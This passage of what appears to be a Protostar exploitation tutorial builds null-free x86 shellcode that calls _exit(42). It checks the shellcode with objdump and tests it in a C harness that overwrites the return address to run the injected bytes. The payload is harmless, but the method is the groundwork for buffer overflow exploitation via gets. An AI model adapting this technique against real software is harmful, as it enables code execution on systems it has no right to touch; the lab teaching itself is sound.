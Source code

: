 \begin{lstlisting}
.section .text
.globl _start
_start:
        xorl %eax,%eax
        xorl %ebx,%ebx
        movb $42,%bl
        movb $1,%al
        int $0x80
\end{lstlisting}

This program not only calls the \texttt{sys\_exit} syscall with a value of 42, but also is designed
specifically to avoid producing null bytes when assembled. This is so that during exploitation,
our shellcode is entirely accepted by \texttt{gets}, as opposed to truncated at the first null byte.
Let's assemble this and take a look.

\begin{lstlisting}
user@protostar:~/shellcode/exit$ as -o exit.o exit.asm
user@protostar:~/shellcode/exit$ ld -o exit_asm exit.o
user@protostar:~/shellcode/exit$ objdump -d exit_asm
...
08048054 <_start>:
 8048054:       31 c0                   xor    %eax,%eax
 8048056:       31 db                   xor    %ebx,%ebx
 8048058:       b3 2a                   mov    $0x2a,%bl
 804805a:       b0 01                   mov    $0x1,%al
 804805c:       cd 80                   int    $0x80
user@protostar:~/shellcode/exit$ ./exit_asm
user@protostar:~/shellcode/exit$ echo $?
42
\end{lstlisting}

Here, we assemble and link our exit.asm file, then use objdump to verify that we have not produced any
null bytes (we haven't). Next, we run our program and verify it does exit with a value of 42 (it does).
Now that we've done this, we're basically ready to build some very simple shellcode that will 
essentially \texttt{\_exit(42)} when executed in the target process. As the only important piece of information
at this step is the specific sequence of bytes which make up our \texttt{\_exit(42)} shellcode,
let's do one final test with it, executing it in an environment similar to our target.

\begin{lstlisting}
//injectable version (no nulls)
char injectable[] = "\x31\xc0" // xorl %eax,%eax
                "\x31\xdb" // xorl %ebx,%ebx
                "\xb3\x2a" //movb $42,%bl
                "\xb0\x01" //movb $1,%al
                "\xcd\x80"; //int $0x80
void launchpad(long placeholder)
{
        long *eip = &placeholder;
        eip--;
        *eip = (long)&injectable;
}

int main()
{
        launchpad(0xf0f0f0f0);
}
\end{lstlisting}


